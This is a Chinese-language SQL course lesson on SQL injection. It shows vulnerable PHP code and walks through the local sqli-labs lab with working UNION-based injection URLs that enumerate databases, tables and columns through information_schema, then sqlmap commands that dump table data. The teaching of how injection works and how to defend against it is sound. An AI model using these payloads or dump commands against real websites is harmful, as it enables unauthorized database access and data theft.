# 37丨SQL注入：你的SQL是如何被注入的？

 我们之前已经讲解了 SQL 的使用及优化，正常的 SQL 调用可以帮我们从数据库中获取想要的数据，然而我们构建的 Web 应用是个应用程序，本身也可能存在安全漏洞，如果不加以注意，就会出现 Web 安全的隐患，比如通过非正常的方式注入 SQL。在过去的几年中，我们也能经常看到用户信息被泄露，出现这种情况，很大程度上和 SQL 注入有关。所以了解 SQL 注入的原理以及防范还是非常有必要的。今天我们就通过一个简单的练习看下 SQL 注入的过程是怎样的，内容主要包括以下几个部分：SQL 注入的原理。为什么用户可以通过 URL 请求或者提交 Web 表单的方式提交非法 SQL 命令，从而访问数据库？如何使用 sqli-labs 注入平台进行第一个 SQL 注入实验？如何使用 SQLmap 完成 SQL 注入检测？

## SQL 注入的原理

SQL 注入也叫作 SQL Injection，它指的是将非法的 SQL 命令插入到 URL 或者 Web 表单中进行请求，而这些请求被服务器认为是正常的 SQL 语句从而进行执行。也就是说，如果我们想要进行 SQL 注入，可以将想要执行的 SQL 代码隐藏在输入的信息中，而机器无法识别出来这些内容是用户信息，还是 SQL 代码，在后台处理过程中，这些输入的 SQL 语句会显现出来并执行，从而导致数据泄露，甚至被更改或删除。为什么我们可以将 SQL 语句隐藏在输入的信息中呢？这里举一个简单的例子。比如下面的 PHP 代码将浏览器发送过来的 URL 请求，通过 GET 方式获取 ID 参数，赋值给 $id 变量，然后通过字符串拼接的方式组成了 SQL 语句。这里我们没有对传入的 ID 参数做校验，而是采用了直接拼接的方式，这样就可能产生 SQL 注入。$id=$_GET['id'];$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";$result=mysql_query($sql);$row = mysql_fetch_array($result);如果我们在 URL 中的?id= 后面输入’ or 1=1 --+，那么 SQL 语句就变成了下面这样：SELECT * FROM users WHERE id='' or 1=1 -- LIMIT 0,1其中我们输入的（+）在浏览器 URL 中相当于空格，而输入的（–）在 SQL 中表示注释语句，它会将后面的 SQL 内容都注释掉，这样整个 SQL 就相当于是从 users 表中获取全部的数据。然后我们使用 mysql_fetch_array 从结果中获取一条记录，这时即使 ID 输入不正确也没有关系，同样可以获取数据表中的第一行记录。

## 一个 SQL 注入的实例

通常我们希望通过 SQL 注入可以获取更多的信息，比如数据库的名称、数据表名称和字段名等。下面我们通过一个简单的 SQL 实例来操作一下。

### 搭建 sqli-labs 注入环境

首先我们需要搭建 sqli-labs 注入环境，在这个项目中，我们会面临 75 个 SQL 注入的挑战，你可以像游戏闯关一样对 SQL 注入的原理进行学习。下面的步骤是关于如何在本地搭建 sqli-labs 注入环境的，成功搭建好的环境类似链接里展现的。第一步，下载 sqli-labs。sqli-labs 是一个开源的 SQL 注入平台，你可以从GitHub上下载它。第二步，配置 PHP、Apache 环境（可以使用 phpStudy 工具）。运行 sqli-labs 需要 PHP、Apache 环境，如果你之前没有安装过它们，可以直接使用 phpStudy 这个工具，它不仅集成了 PHP、Apache 和 MySQL，还可以方便地指定 PHP 的版本。在今天的项目中，我使用的是 PHP5.4.45 版本。



第三步，配置 sqli-labs 及 MySQL 参数。首先我们需要给 sqli-labs 指定需要访问的数据库账户密码，对应sqli-labs-master\sql-connections\db-creds.inc文件，这里我们需要修改$dbpass参数，改成自己的 MySQL 的密码。



此时我们访问本地的sqli-labs项目http://localhost/sqli-labs-master/出现如下页面，需要先启动数据库，选择Setup/reset Database for labs即可。



如果此时提示数据库连接错误，可能需要我们手动修改 MySQL 的配置文件，需要调整的参数如下所示（修改 MySQL 密码验证方式为使用明文，同时设置 MySQL 默认的编码方式）：[client]default-character-set=utf8[mysql]default-character-set=utf8[mysqld]character-set-server = utf8default_authentication_plugin = mysql_native_password

### 第一个 SQL 注入挑战

在我们成功对 sqli-labs 进行了配置，现在可以进入到第一关挑战环节。访问本地的http://localhost/sqli-labs-master/Less-1/页面，如下所示：

我们可以在 URL 后面加上 ID 参数，获取指定 ID 的信息，比如http://localhost/sqli-labs-master/Less-1/?id=1。这些都是正常的访问请求，现在我们可以通过 1 or 1=1 来判断 ID 参数的查询类型，访问http://localhost/sqli-labs-master/Less-1/?id=1 or 1=1。

你可以看到依然可以正常访问，证明 ID 参数不是数值查询，然后我们在 1 后面增加个单引号，来查看下返回结果，访问http://localhost/sqli-labs-master/Less-1/?id=1'。这时数据库报错，并且在页面上返回了错误信息：You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘‘1’’ LIMIT 0,1’ at line 1。我们对这个错误进行分析，首先''1'' LIMIT 0,1'这个语句，我们去掉最外层的单引号，得到'1'' LIMIT 0,1，因为我们输入的参数是1'，继续去掉1'，得到'' LIMIT 0,1。这样我们就能判断出后台的 SQL 语句，类似于下面这样：$sql="SELECT ... FROM ... WHERE id='$id' LIMIT 0,1";两处省略号的地方分别代表 SELECT 语句中的字段名和数据表名称。

### 判断查询语句的字段数

现在我们已经对后台的 SQL 查询已经有了大致的判断，它是通过字符串拼接完成的 SQL 查询。现在我们再来判断下这个查询语句中的字段个数，通常可以在输入的查询内容后面加上 ORDER BY X，这里 X 是我们估计的字段个数。如果 X 数值大于 SELECT 查询的字段数，则会报错。根据这个原理，我们可以尝试通过不同的 X 来判断 SELECT 查询的字段个数，这里我们通过下面两个 URL 可以判断出来，SELECT 查询的字段数为 3 个：报错：http://localhost/sqli-labs-master/Less-1/?id=1' order by 4 --+正确：http://localhost/sqli-labs-master/Less-1/?id=1' order by 3 --+

### 获取当前数据库和用户信息

下面我们通过 SQL 注入来获取想要的信息，比如想要获取当前数据库和用户信息。这里我们使用 UNION 操作符。在 MySQL 中，UNION 操作符前后两个 SELECT 语句的查询结构必须一致。刚才我们已经通过实验，判断出查询语句的字段个数为 3，因此在构造 UNION 后面的查询语句时也需要查询 3 个字段。这里我们可以使用：SELECT 1,database(),user()，也就是使用默认值 1 来作为第一个字段，整个 URL 为：http://localhost/sqli-labs-master/Less-1/?id=' union select 1,database(),user() --+。

页面中显示的security即为当前的数据库名称，root@localhost为当前的用户信息。

### 获取 MySQL 中的所有数据库名称

我们还想知道当前 MySQL 中所有的数据库名称都有哪些，数据库名称数量肯定会大于 1，因此这里我们需要使用GROUP_CONCAT函数，这个函数可以将GROUP BY产生的同一个分组中的值连接起来，并以字符串形式返回。具体使用如下：http://localhost/sqli-labs-master/Less-1/?id=' union select 1,2,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)--+这样我们就可以把多个数据库名称拼接在一起，作为字段 3 返回给页面。



你能看到这里我使用到了 MySQL 中的information_schema数据库，这个数据库是 MySQL 自带的数据库，用来存储数据库的基本信息，比如数据库名称、数据表名称、列的数据类型和访问权限等。我们可以通过访问information_schema数据库，获得更多数据库的信息。

### 查询 wucai 数据库中所有数据表

在上面的实验中，我们已经得到了 MySQL 中所有的数据库名称，这里我们能看到 wucai 这个数据库。如果我们想要看 wucai 这个数据库中都有哪些数据表，可以使用：http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='wucai') --+这里我们同样将数据表名称使用 GROUP_CONCAT 函数拼接起来，作为字段 3 进行返回。

### 查询 heros 数据表中所有字段名称

在上面的实验中，我们从 wucai 数据库中找到了熟悉的数据表 heros，现在就来通过 information_schema 来查询下 heros 数据表都有哪些字段，使用下面的命令即可：http://localhost/sqli-labs-master/Less-1/?id=' UNION SELECT 1,2,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='heros') --+这里会将字段使用 GROUP_CONCAT 函数进行拼接，并将结果作为字段 3 进行返回，返回的结果如下所示：attack_growth,attack_max,attack_range,attack_speed_max,attack_start,birthdate,defense_growth,defense_max,defense_start,hp_5s_growth,hp_5s_max,hp_5s_start,hp_growth,hp_max,hp_start,id,mp_5s_growth,mp_5s_max,mp_5s_start,mp_growth,mp_max,mp_start,name,role_assist,role_main



## 使用 SQLmap 工具进行 SQL 注入检测

经过上面的实验你能体会到，如果我们编写的代码存在着 SQL 注入的漏洞，后果还是很可怕的。通过访问information_schema就可以将数据库的信息暴露出来。了解到如何完成注入 SQL 后，我们再来了解下 SQL 注入的检测工具，它可以帮我们自动化完成 SQL 注入的过程，这里我们使用的是 SQLmap 工具。下面我们使用 SQLmap 再模拟一遍刚才人工 SQL 注入的步骤。

### 获取当前数据库和用户信息

我们使用sqlmap -u来指定注入测试的 URL，使用--current-db来获取当前的数据库名称，使用--current-user获取当前的用户信息，具体命令如下：python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db --current-user然后你能看到 SQLmap 帮我们获取了相应的结果：



### 获取 MySQL 中的所有数据库名称

我们可以使用--dbs来获取 DBMS 中所有的数据库名称，这里我们使用--threads参数来指定 SQLmap 最大并发数，设置为 5，通常该参数不要超过 10，具体命令为下面这样：python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 --dbs同样 SQLmap 帮我们获取了 MySQL 中存在的 8 个数据库名称：



### 查询 wucai 数据库中所有数据表

当我们知道 DBMS 中存在的某个数据库名称时，可以使用 -D 参数对数据库进行指定，然后使用--tables参数显示出所有的数据表名称。比如我们想要查看 wucai 数据库中都有哪些数据表，使用：python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai --tables



### 查询 heros 数据表中所有字段名称

我们也可以对指定的数据表，比如 heros 表进行所有字段名称的查询，使用-D指定数据库名称，-T指定数据表名称，--columns对所有字段名称进行查询，命令如下：python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai -T heros --columns



### 查询 heros 数据表中的英雄信息

当我们了解了数据表中的字段之后，就可以对指定字段进行查询，使用-C参数进行指定。比如我们想要查询 heros 数据表中的id、name和hp_max字段的取值，这里我们不采用多线程的方式，具体命令如下：python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D wucai -T heros -C id,name,hp_max --dump



完整的结果一共包括 69 个英雄信息都显示出来了，这里我只截取了部分的英雄结果。

## 总结

在今天的内容中，我使用了 sqli-labs 注入平台作为实验数据，使用了 SQLmap 工具自动完成 SQL 注入。SQL 注入的方法还有很多，我们今天讲解的只是其中一个方式。你如果对 SQL 注入感兴趣，也可以对 sqli-labs 中其他例子进行学习，了解更多 SQL 注入的方法。在这个过程中，最主要的是理解 SQL 注入的原理。在日常工作中，我们需要对用户提交的内容进行验证，以防止 SQL 注入。当然很多时候我们都在使用编程框架，这些框架已经极大地降低了 SQL 注入的风险，但是只要有 SQL 拼接的地方，这种风险就可能存在。总之，代码规范性对于 Web 安全来说非常重要，尽量不要采用直接拼接的方式进行查询。同时在 Web 上线之后，还需要将生产环境中的错误提示信息关闭，以减少被 SQL 注入的风险。此外我们也可以采用第三方的工具，比如 SQLmap 来对 Web 应用进行检测，以增强 Web 安全性。



你不妨思考下，为什么开发人员的代码规范对于 Web 安全来说非常重要？以及都有哪些方式可以防止 SQL 注入呢？欢迎你在评论区写下你的思考，也欢迎把这篇文章分享给你的朋友或者同事，一起交流一下。
